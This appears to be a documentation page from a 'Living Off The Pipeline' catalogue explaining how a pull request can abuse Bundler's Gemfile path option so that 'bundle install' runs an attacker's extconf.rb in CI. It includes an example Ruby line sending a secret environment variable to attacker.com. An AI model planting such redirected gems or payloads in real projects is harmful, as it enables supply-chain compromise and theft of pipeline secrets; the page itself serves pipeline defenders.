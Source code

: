 ```yaml
---
layout: tool
title: bundle
parent: Living Off The Pipeline
nav_order: 8
---
```


## Living Off The Pipeline - bundle (Bundler)

Bundler is the standard dependency manager for Ruby. It can be abused as a "Living Off The Pipeline" (LOTP) tool by manipulating the `Gemfile` to load a malicious, local version of a gem, leading to Remote Code Execution (RCE).

### First-Order LOTP Tool

Bundler is a **First-Order LOTP Tool**. It provides direct RCE when it processes a malicious `Gemfile`.

#### Malicious Primitive: Remote Code Execution (RCE)

The `Gemfile` allows developers to specify a dependency's source using a local `path`. This feature, intended for development, can be weaponized by an attacker in a pull request.

An attacker can replace a legitimate gem with a malicious local version that contains an `extconf.rb` script. This script is a standard part of gems that build C extensions, and it is executed by the `bundle install` command. The attacker places their malicious payload in this script.

### Second-Order LOTP Attack Chain

1.  **Attacker's PR:** An attacker submits a pull request containing:
    *   A modified `Gemfile` that points a common gem to a local path.
        ```ruby
        # Gemfile
        gem 'nokogiri', path: './malicious/nokogiri'
        ```
    *   A malicious version of the gem at that path, including a malicious `extconf.rb` script.
        ```ruby
        # malicious/nokogiri/extconf.rb
        require 'open-uri'
        # Malicious payload
        open("http://attacker.com/?data=#{ENV['SUPER_SECRET']}")
        ```

2.  **Vulnerable Workflow:** The pipeline contains a completely standard command to install dependencies.
    ```yaml
    - name: Install Ruby gems
      run: bundle install
    ```

3.  **Execution:**
    *   The `bundle install` command reads the `Gemfile`.
    *   It finds the `path` directive and uses the attacker's local, malicious version of the `nokogiri` gem.
    *   During the installation process, Bundler executes the malicious `extconf.rb` script to (purportedly) build the native extension.
    *   The attacker's payload runs, leading to RCE.

This attack is dangerous because the CI/CD workflow file is benign, and the malicious code is hidden in a file (`extconf.rb`) that is expected to be executed during a normal installation.

### References

*   [Bundler `path` option](https://bundler.io/man/gemfile.5.html#PATH)
*   [RubyGems: C Extensions](https://guides.rubygems.org/c-extensions/)
